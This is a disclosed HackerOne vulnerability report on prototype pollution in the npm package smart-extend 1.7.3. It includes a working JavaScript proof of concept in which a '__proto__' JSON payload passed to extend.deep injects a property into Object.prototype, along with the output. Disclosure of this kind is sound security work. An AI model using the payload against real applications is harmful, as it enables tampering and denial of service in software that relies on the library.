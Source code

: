 # Prototype pollution attack (smart-extend)

## Report Details
- **Report ID**: 438274
- **URL**: https://hackerone.com/reports/438274
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-11-09T16:05:18.849Z
- **Disclosed**: 2019-04-03T20:13:18.331Z

## Reporter
- **Username**: dienpv
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi team,
I would like to report a prototype pollution vulnerability in smart-extend
that allows an attacker to inject properties on Object.prototype.

# Module

**module name:** smart-extend
**version:** 1.7.3
**npm page:** `https://www.npmjs.com/package/smart-extend`

## Module Description

> smart-extend is an extension to jQuery's classic extend() method with additional features providing you with more power and control over your object extensions/clones. Works in both Node.JS and the browser.

## Module Stats

> 40.948 downloads in the last week

# Vulnerability

## Vulnerability Description

> this vulnerability type is similar the report of Olivier #310443
only `deep` function is vulnerable when it performs a recursive copy of the specified objects.

## Steps To Reproduce:
In the following code snippet, "payload" would come from user-input (JSON data) 

```javascript
var extend = require('smart-extend');

var payload = '{"__proto__":{"polluted":"deep_done !"}}';
var test = {};
console.log("Before: ", test.polluted);
extend.deep({},JSON.parse(payload));
console.log("After: ", test.polluted);
```
get results:
```
Before:  undefined
After:  deep_done !
```
# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N 

> Thanks!

## Impact

It causes Denial of Service or RCE in some cases.

## Attachments
No attachments
